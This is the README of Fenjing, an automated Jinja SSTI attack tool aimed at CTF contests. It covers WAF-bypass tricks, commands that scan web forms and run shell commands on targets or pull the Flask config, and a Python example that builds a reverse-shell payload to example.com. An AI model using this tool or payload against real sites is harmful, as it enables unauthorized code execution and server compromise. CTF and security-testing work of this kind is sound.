 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口。

## 演示

![demo](assets/demo.webp)

## 主要特性

- 集成了大部分CTF中的SSTI WAF绕过技巧
- 全自动扫描HTML页面中的form元素并进行攻击
- 全自动分析网站的WAF并生成相应的payload
- 方便的网页界面/命令行界面

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing webui
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing webui
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing webui
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing webui
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- get-config: 对某个特定的表单进行攻击，但是只获取flask config
  - 参数大致上和crack相同
```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT     form所在的URL
  -a, --action TEXT  form的action，默认为当前路径
  -m, --method TEXT  form的提交方式，默认为POST
  -i, --inputs TEXT  form的参数，以逗号分隔
  --interval FLOAT   每次请求的间隔
  --user-agent TEXT  请求时使用的User Agent
  --help             Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

其他使用例可以看[这里](examples.md)

## 项目结构

[![](https://mermaid.ink/img/pako:eNp1U8tuwyAQ_BWElJziH_Chh6rH9tL21Dqy1niJUTG4PJqkUf69YCfBdlwOCIbZ2WEXTpTpGmlOudR71oBx5P2xUCQM66udga4h3glpyQDGwbTURvxiQgx-e7QOTYK4Nu04RFmXtsMKVT3PZNFkQgUhDgzHKaX45GBzDlk4bIUCGbFtYuyx8pFTRQ4XBrk-DOB2IkOy7GHAbybIzEW0blPQakXqoMec0Iq8Po9SAi-5V6zcoZpevGQG2Ne4HJaBKr2Ry7zB1J1cX6CZuQ6OUkM98pfMXTt3qbjDgyt_wIy4tkEpy4vGhMzF7h7nPrGnt1wEpzJkPU3XX3Ku2IPj_XrB-e2hXPt3X-PrybTOw9x3-5-4WReWLMYW0A1tw7sDUYevcoqhBXUNtljQPCwVemdAFrRQ50AF7_TbUTGaO-NxQ31Xg8MnAaGFLQ0PVNqAdqA-tE57rIXT5mX4jv2vPP8BWQ4lKg?type=png)](https://mermaid.live/edit#pako:eNp1U8tuwyAQ_BWElJziH_Chh6rH9tL21Dqy1niJUTG4PJqkUf69YCfBdlwOCIbZ2WEXTpTpGmlOudR71oBx5P2xUCQM66udga4h3glpyQDGwbTURvxiQgx-e7QOTYK4Nu04RFmXtsMKVT3PZNFkQgUhDgzHKaX45GBzDlk4bIUCGbFtYuyx8pFTRQ4XBrk-DOB2IkOy7GHAbybIzEW0blPQakXqoMec0Iq8Po9SAi-5V6zcoZpevGQG2Ne4HJaBKr2Ry7zB1J1cX6CZuQ6OUkM98pfMXTt3qbjDgyt_wIy4tkEpy4vGhMzF7h7nPrGnt1wEpzJkPU3XX3Ku2IPj_XrB-e2hXPt3X-PrybTOw9x3-5-4WReWLMYW0A1tw7sDUYevcoqhBXUNtljQPCwVemdAFrRQ50AF7_TbUTGaO-NxQ31Xg8MnAaGFLQ0PVNqAdqA-tE57rIXT5mX4jv2vPP8BWQ4lKg)

